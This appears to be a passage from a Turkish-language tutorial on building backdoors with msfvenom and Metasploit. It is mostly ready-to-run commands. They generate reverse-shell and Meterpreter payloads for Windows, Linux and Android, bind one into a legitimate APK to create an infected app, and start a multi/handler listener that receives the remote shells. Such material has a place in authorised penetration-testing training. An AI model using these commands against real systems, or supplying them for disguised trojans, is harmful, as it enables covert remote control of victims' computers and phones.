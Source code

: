 ### 🪟 **Windows Payload Oluşturma:**
```bash
# Basit reverse shell
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > backdoor.exe

# Meterpreter ile gelişmiş kontrol
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > meterpreter_backdoor.exe

# PowerShell script olarak
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh > backdoor.ps1
```

### 🐧 **Linux Payload Oluşturma:**
```bash
# x86 mimarisi için
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > backdoor_x86.elf

# x64 mimarisi için
msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > backdoor_x64.elf

# Python script olarak
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f py > backdoor.py
```

### 📱 **Android Payload Oluşturma:**
```bash
# Android uygulaması olarak
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f apk > backdoor.apk

# Android uygulamasını mevcut APK'ya gömme
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -x legitimate_app.apk -f apk > infected_app.apk
```

---

## 3️⃣ Backdoor ile Bağlantı Sağlama 🔌

### 📡 **Dinleyici (Listener) Kurulumu:**
Backdoor'u çalıştırmadan önce, saldırgan bilgisayarında bir dinleyici başlatılmalıdır. Bu, telefon görüşmesinde karşı tarafın telefonunu açmasını beklemek gibidir.

```bash
# Metasploit konsolunu başlat
msfconsole

# Handler modülünü kullan
use exploit/multi/handler

# Payload'ı ayarla (oluşturduğunuz payload ile aynı olmalı)
set payload windows/meterpreter/reverse_tcp

# Saldırgan bilgisayarının IP adresini ayarla
set LHOST 192.168.1.10

# Port numarasını ayarla
set LPORT 4444

# Dinleyiciyi başlat
exploit
```

